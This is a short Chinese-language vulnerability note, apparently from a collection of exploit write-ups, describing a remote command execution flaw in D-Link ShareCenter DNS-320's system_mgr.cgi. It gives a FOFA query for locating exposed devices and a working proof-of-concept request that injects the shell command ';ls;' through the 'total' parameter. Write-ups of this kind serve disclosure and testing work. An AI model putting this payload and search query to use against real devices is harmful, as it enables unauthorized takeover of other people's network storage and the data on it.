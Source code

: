 # D-Link-ShareCenter-DNS-320-system_mgr.cgi-远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

> [!NOTE]
>
> D-Link ShareCenter DNS-320

## FOFA

> [!NOTE]
>
> app="D_Link-DNS-ShareCenter"

## 漏洞复现

登录页面如下

![image-20210605180903289](D-Link-ShareCenter-DNS-320-system_mgr.cgi-远程命令执行漏洞.assets/16273636164968052.jpg)

漏洞POC为

```
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```

![image-20210605181224009](D-Link-ShareCenter-DNS-320-system_mgr.cgi-远程命令执行漏洞.assets/16273636167313669.jpg)